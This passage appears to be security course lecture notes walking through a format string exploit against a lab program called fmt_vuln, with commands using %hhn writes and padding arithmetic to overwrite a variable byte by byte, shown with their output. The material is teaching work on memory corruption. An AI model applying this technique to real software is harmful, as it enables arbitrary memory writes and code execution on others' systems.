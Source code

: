 If you look closely at the format, you see we are doing argument
indexing to shorten the format length. We now have a bunch of `%x`
referencing the address we want to write too plus each has a leading
`%x` format so we can adjust the leading zeros to change how much we can
change the byte we are writing to that address.

Now it is just a matter of changing the `%x` that match the addresses we
want to write to `%hhn` and then manipulating the number of 0's in the
output.

``` {.example}
ser@si485H-base:demo$ ./fmt_vuln $(printf "\x2f\xa0\x04\x08")$(printf "\x2e\xa0\x04\x08")$(printf "\x2d\xa0\x04\x08")$(printf "\x2c\xa0\x04\x08").%1\$08x.%4\$hhn.%1\$08x.%\5\$hhn.%1\$08x.%\6\$hhn.%1\$08x.%\7\$hhn
Right: /.-,.%1$08x.%4$hhn.%1$08x.%5$hhn.%1$08x.%6$hhn.%1$08x.%7$hhn

Wrong: /.-,.bffff280..bffff280..bffff280..bffff280.

[*] test_val @ 0x804a02c = 438578744 0x1a242e38
```

First, we need to change 0x1a into 0xde, that requires 196 additional
bytes. The first `%1$08x` changes into `%1$0204x` (that is, we were
printing up to 8 leading 0's, now we need 196 more to reach 204 leading
zeros).

``` {.example}
user@si485H-base:demo$ ./fmt_vuln $(printf "\x2f\xa0\x04\x08")$(printf "\x2e\xa0\x04\x08")$(printf "\x2d\xa0\x04\x08")$(printf "\x2c\xa0\x04\x08").%1\$0204x.%4\$hhn.%1\$08x.%\5\$hhn.%1\$08x.%\6\$hhn.%1\$08x.%\7\$hhn
Right: /.-,.%1$0204x.%4$hhn.%1$08x.%5$hhn.%1$08x.%6$hhn.%1$08x.%7$hhn

Wrong: /.-,.0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000bffff280..bffff280..bffff280..bffff280.

[*] test_val @ 0x804a02c = -555158788 0xdee8f2fc
```

Next up, we need to change 0xe8 into 0xad. That will require overflowing
and coming back around, which means wee need 0xff-0xea+1 to re-zero than
additional 0xad bytes to write, or 195 additional bytes. Again,
considering that we started by formatting 0x8, that means we change the
second `%x` to have 205 leading zeros.

``` {.example}
user@si485H-base:demo$ ./fmt_vuln $(printf "\x2f\xa0\x04\x08")$(printf "\x2e\xa0\x04\x08")$(printf "\x2d\xa0\x04\x08")$(printf "\x2c\xa0\x04\x08").%1\$0204x.%4\$hhn.%1\$0205x.%\5\$hhn.%1\$08x.%\6\$hhn.%1\$08x.%\7\$hhn
Right: /.-,.%1$0204x.%4$hhn.%1$0205x.%5$hhn.%1$08x.%6$hhn.%1$08x.%7$hhn

Wrong: /.-,.0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000bffff280..00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000bffff280..bffff280..bffff280.

[*] test_val @ 0x804a02c = -559040575 0xdeadb7c1
```
